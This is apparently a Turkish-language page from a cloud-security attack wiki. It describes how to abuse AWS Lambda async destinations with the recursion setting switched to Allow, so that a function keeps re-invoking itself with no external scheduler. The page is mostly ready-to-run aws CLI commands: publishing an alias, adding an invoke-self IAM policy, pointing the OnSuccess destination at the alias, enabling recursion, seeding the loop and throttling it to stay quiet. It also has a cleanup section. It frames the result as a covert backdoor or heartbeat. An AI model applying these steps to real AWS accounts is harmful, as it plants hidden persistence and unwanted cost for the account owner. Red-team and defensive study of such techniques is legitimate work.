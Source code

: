 # AWS - Lambda Asenkron Kendi Kendine Döngü Kalıcılığı üzerinden Destinations + Recursion Allow

Lambda'nin asenkron destinations özelliğini Recursion yapılandırmasıyla kötüye kullanarak bir fonksiyonun harici bir zamanlayıcı (EventBridge, cron vb. olmadan) kendini sürekli yeniden invoke etmesini sağlayın. Varsayılan olarak Lambda, özyinelemeli döngüleri sonlandırır; ancak recursion konfigürasyonunu Allow olarak ayarlamak bunları yeniden etkinleştirir. Destinations, async invokes için servis tarafında teslimat yapar; bu nedenle tek bir başlangıç invoke'u kod gerektirmeyen, gizli bir heartbeat/backdoor kanalı oluşturur. Gürültüyü düşük tutmak için isteğe bağlı olarak reserved concurrency ile throttle edebilirsiniz.

Notlar
- Lambda doğrudan fonksiyonu kendi destination'ı olacak şekilde yapılandırmaya izin vermez. Destination olarak bir function alias kullanın ve execution role'un bu alias'ı invoke etmesine izin verin.
- Minimum izinler: hedef fonksiyonun event invoke config ve recursion config'ini okuma/güncelleme yetkisi, bir version publish etme ve alias yönetme, ve function’un execution role policy'sini alias üzerinde lambda:InvokeFunction iznini vermek için güncelleme yetkisi.

## Gereksinimler
- Region: us-east-1
- Vars:
- REGION=us-east-1
- TARGET_FN=<target-lambda-name>

## Adımlar

1) Fonksiyon ARN'sini ve mevcut Recursion ayarını alın
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```
2) Bir sürüm yayınlayın ve bir alias oluşturun/güncelleyin (kendi hedefi olarak kullanılır)
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```
3) Fonksiyonun yürütme rolünün alias'ı çağırmasına izin verin (Lambda Destinations→Lambda tarafından gereklidir)
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "lambda:InvokeFunction",
"Resource": "${ALIAS_ARN}"
}
]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```
4) async destination'ı alias'a (self via alias) yapılandırın ve retries'i devre dışı bırakın
```
aws lambda put-function-event-invoke-config \
--function-name "$TARGET_FN" \
--destination-config OnSuccess={Destination=$ALIAS_ARN} \
--maximum-retry-attempts 0 \
--region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```
5) Özyinelemeli döngülere izin verin
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```
6) Tek bir asenkron invoke tetikleyin
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```
7) Sürekli çağrıları gözlemleyin (örnekler)
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```
8) Opsiyonel gizli sınırlama
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```
## Temizlik
Döngüyü sonlandırın ve persistence'i kaldırın.
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```
## Impact
- Tek bir async invoke, Lambda'nın harici bir zamanlayıcı olmadan kendini sürekli yeniden çağırmasına neden olur; bu da gizli persistence/heartbeat'e olanak tanır. Reserved concurrency, gürültüyü tek bir warm execution ile sınırlayabilir.
